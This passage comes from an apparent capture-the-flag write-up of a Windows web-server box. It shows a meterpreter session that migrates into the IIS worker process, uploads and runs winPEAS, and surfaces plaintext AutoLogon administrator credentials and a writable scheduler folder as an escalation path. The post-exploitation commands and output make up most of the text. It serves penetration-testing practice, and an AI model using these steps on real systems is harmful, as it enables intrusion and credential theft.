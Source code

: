 ```bash
 1388  672   WService.exe                                           
 1460  2792  hello.exe             x86   0        IIS APPPOOL\Blog  c:\Windows\Temp\hello.exe
 1488  1372  w3wp.exe              x64   0        IIS APPPOOL\Blog  C:\Windows\System32\inetsrv\w3wp.exe
 1548  1388  WScheduler.exe                                         
 1652  672   Ec2Config.exe                                          
 1740  740   WmiPrvSE.exe                                           
 1988  672   msdtc.exe                                              
 2412  1200  WScheduler.exe                                         
 2588  904   taskhostex.exe                                         
 2664  2656  explorer.exe                                           
 2792  1488  cmd.exe               x64   0        IIS APPPOOL\Blog  C:\Windows\System32\cmd.exe
 3064  2612  ServerManager.exe                                      

meterpreter > migrate 1488
[*] Migrating from 1460 to 1488...
[*] Migration completed successfully.
```

### Local Enumeration

Now that I had achieved slightly stabler shell, I decided to start poking around the machine for a better escalation vector. I began this by using the new meterpreter shell to upload a copy of `winPEAS` to see if anything major stood out to me on the host.

I've truncated some of the `winPEAS` output for brevity.

```bash
meterpreter > upload /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/Release/
Dotfuscated         de                  fr                  pl                  winPEAS.exe.config  zh-CN               
Dotfuscator1.xml    es                  it                  ru                  winPEAS.pdb         
meterpreter > upload /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/Releasex64/Release/winPEAS.exe
[*] uploading  : /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
[*] Uploaded 461.00 KiB of 461.00 KiB (100.0%): /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
[*] uploaded   : /root/ctf/transfer/privilege-escalation-awesome-scripts-suite/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe -> winPEAS.exe
meterpreter > shell
Process 352 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\temp>.\winPEAS.exe
...
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
...
  [+] Installed Applications --Via Program Files/Uninstall registry--
   [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
    C:\Program Files (x86)\SystemScheduler(Everyone [WriteData/CreateFiles])
    C:\Program Files\Amazon
    C:\Program Files\Common Files
    C:\Program Files\desktop.ini
    C:\Program Files\Internet Explorer
    C:\Program Files\Uninstall Information
```